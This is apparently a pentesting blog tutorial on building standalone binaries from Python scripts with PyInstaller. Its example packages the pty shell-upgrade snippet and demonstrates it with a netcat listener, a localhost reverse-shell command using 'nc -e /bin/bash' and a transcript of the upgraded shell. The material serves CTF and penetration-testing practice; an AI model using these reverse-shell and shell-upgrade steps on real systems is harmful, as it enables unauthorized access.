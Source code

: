 ```yaml
---
title: "Tutorial: Create Binary Versions of Python Tools"
date: 2021-01-14T15:34:30-04:00
categories:
  - tutorial
tags:
  - python
  - pentesting
  - tools
  - linux
  - windows
---
```


With **PyInstaller** you can create stand-alone binaries that run on machines that do not have Python installed.

On Linux it will create an executable ELF binary.  
On Windows it creates a P32 or P32+ exe.  

Despite the crude method of including an entire interpreter, the minimum file size for a 64bit ELF binary is around 4 MB and the Windows equivalent is around 7 MB. So only marginally worse than your average .NET Hello World /s.


## Cross-Compiling

Here comes the bad news, there is no cross-compiling build-in.  
If you want to create Windows binaries, then you will have to do so on Windows and the same is true for Linux.  

Also please note that it matter whether you use the 32bit or 64bit version of the Python interpreter. Using the 64bit Linux interpreter results in a 64bit ELF binary.

But I assume you have some VM's lying around that can be used.  
[Wine might also work](https://stackoverflow.com/a/35605479), but I have not tried that.


## Install

On linux you can just use `pip3 install PyInstaller` or `pip install PyInstaller` for the 2.7 version.

On Windows you can also use `python.exe -m pip install PyInstaller`.

I will use the 3+ version of Python for the following examples. But the process should be the same regardless of what version you use. Just make sure the Interpreter you use for compiling the binary is the same one the script would use.


## Example: Upgrade a Linux Reverse Shell

If you have done CTF's or network pentesting, then you have probably encountered this python snippet before: 

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This spawns a fully interactive psuedo-terminal that allows you to run commands such as `su` or `sudo`, which can be pretty handy if you were stuck with a semi-interactive reverse shell before.

There are other ways to spawn a fully-interactive shell besides python, but this will do as a simple example.

Let's create a standalone-binary version of this snippet.

First create a python script file `upgrade.py`:
```python
#!/usr/bin/env python3
import pty
pty.spawn("/bin/bash")
```

Use the following command in order to create a pyinstaller binary:

```bash
pyinstaller --onefile upgrade.py
```

The `--onefile` parameter tells pyinstaller that all libraries should be packed into the binary.

If this finishes successfully, then you will find the created binary in the /dist subfolder.

### Does It Work?

Make sure the created `upgrade` binary is executable (`chmod +x upgrade`).

Listen for a shell with netcat:

```bash
nc -vlnp 4455
```

We will simulate a reverse shell as user www-data using sudo.  
This of course assumes you have such a user on your system and the required sudo permissions.  

Do this in a second shell:
```bash
sudo -u www-data bash -c "/usr/bin/nc localhost 4455 -e /bin/bash"
```

In the first terminal you will receive the semi-interactive netcat reverse shell (added new lines for clarity):

```bash
$ nc -vlnp 4455
listening on [any] 4455 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 33470

whoami
www-data

tty
not a tty

ls -l
total 4000
-rwxr-xr-x 1 kali kali 4092904 Jan 15 19:42 upgrade
```

Run our binary:

```bash
./upgrade
www-data@kali:/tmp/upgrade/dist$ tty
tty
/dev/pts/2
www-data@kali:/tmp/upgrade/dist$ 
www-data@kali:/tmp/upgrade/dist$ su kali
su kali
Password: hunter2

kali@kali:/tmp/upgrade/dist$
```

The `tty` command confirms our upgraded shell counts as a terminal. You should be able to do interactive commands like `su` now.